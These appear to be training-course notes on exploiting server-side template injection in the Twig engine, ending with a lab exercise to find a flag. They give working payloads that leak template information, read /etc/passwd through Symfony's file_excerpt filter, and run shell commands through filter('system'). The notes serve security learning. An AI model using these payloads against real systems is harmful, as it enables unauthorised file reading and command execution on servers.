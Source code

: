 ## Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

![](Pasted%20image%2020250303184255.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

![](Pasted%20image%2020250303184424.png)

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:

```twig
{{ ['id'] | filter('system') }}
```

![](Pasted%20image%2020250303184504.png)

## Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

>[!Example]
>The academy exercise for this section:

I'll perform a `ls /` to find out the name of the flag:

```twig
{{ ['ls /'] | filter('system') }}
```
